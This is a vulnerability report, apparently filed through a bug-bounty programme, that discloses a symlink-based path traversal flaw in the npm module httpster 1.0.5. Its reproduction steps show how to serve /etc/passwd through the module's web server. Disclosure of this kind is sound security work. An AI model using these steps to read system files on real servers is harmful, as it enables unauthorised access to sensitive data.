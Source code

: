 I would like to report path traversal vulnerability in httpster module
It allows an attacker to read system files via path traversal vulnerability

Module
-------------------------------------------
module name: httpster
version: 1.0.5(latest)
npm page: https://www.npmjs.com/package/httpster

Module Description

Simple http server for quick loading of content.

Weekly Downloads
------------------------------------------------
9,164
Vulnerability

Vulnerability Description

With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.

Steps To Reproduce:
--------------------------------------------------

1) Install the httpster module
$ npm -g install httpster

2)Make a directory
$ mkdir test

3)Go to 'test' directory
$ cd test

4)create a symlink file
ln -s /etc/passwd 'filename'

5)Run httpster module
$ httpster

6)Request the file within browser
http://localhost:3333/'filename'


Supporting Material/References:
--------------------------------------------------------------------------------------

These are similar reports
https://hackerone.com/reports/510043
https://hackerone.com/reports/695416

[OPERATING SYSTEM VERSION] Ubuntu 18.04.3 LTS
[NODEJS VERSION] v8.10.0
[NPM VERSION] 3.5.2
[BROWSER] Mozilla Firefox 72.0.1 (64-bit)



Impact
----------------------------------------------------------------------
This could have enabled an attacker to view system files and leverage attacks like remote code execution and so on
